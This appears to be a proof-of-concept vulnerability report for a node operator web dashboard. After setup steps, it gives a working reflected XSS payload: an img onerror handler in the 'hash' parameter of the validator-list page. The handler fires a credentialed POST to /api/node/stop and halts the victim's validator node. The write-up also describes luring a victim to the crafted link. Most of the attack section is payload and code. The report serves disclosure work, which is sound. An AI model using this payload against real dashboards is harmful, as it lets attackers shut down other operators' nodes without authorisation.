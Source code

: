 ```
# Generate the private key
openssl genpkey -algorithm RSA -out selfsigned.key -pkeyopt rsa_keygen_bits:2048

# Generate a self-signed certificate
openssl req -new -x509 -key selfsigned.key -out selfsigned.crt -days 365
```

run

```
npm start
```

### Exploit

Open `https://localhost:8080/login` and enter any password so that you will have a valid session.

Start node by either making a post request to `https://localhost:8080/api/node/start` or running `operator-cli start`.

if everything is setted up right, you will be able to access http://localhost:9000. In the `validator-cli/validator-logs.txt` there will be validator logs.

If there are errors then you can skip this step and use a random node to confirm XSS (the nodes are running on localhost:9001-localhost:9010) instead.

Now, we will request this route from `api/handlers/node.ts`using an XSS attack:

```js
  apiRouter.post('/node/stop', asyncRouteHandler(async (req: Request, res: Response) => {
    // Exec the CLI validator stop command
    console.log('executing operator-cli stop...');
    execFileSync('operator-cli', ['stop', '-f'])
    res.status(200).json({status: "ok"})
  }));
```

To stop the node we just have to execute a POST request to `/api/node/stop` (with cookies). To do so we can use the following js command:

`fetch("https://localhost:8080/api/node/stop", {"credentials":"include","method":"post"})`

So if we trick the victim to open our site or the link with the payload directly, we will be able to stop the node.

Open `http://localhost:9000/validator-list?hash=<img src=x onerror='fetch("https://localhost:8080/api/node/stop", {"credentials":"include","method":"post"}) '>` **you may want to use a different port like 9001-9010 if operator-cli wasn't able to start the node correctly**

If there was a running node on localhost:9000, it's now stopped.

If a node on localhost:9000 wasn't running, you can still confirm that the XSS attack worked. While we can't read the body, we still can be assured that the request pass through. In the console we can see that the request returned status code: 200 - `Cross-Origin Request Blocked: The Same Origin Policy disallows reading the remote resource at https://localhost:8080/api/node/stop. (Reason: CORS header ‘Access-Control-Allow-Origin’ missing). Status code: 200` In the proxy, for example burp, we can see that the request successfully executed as well (see screenshot)

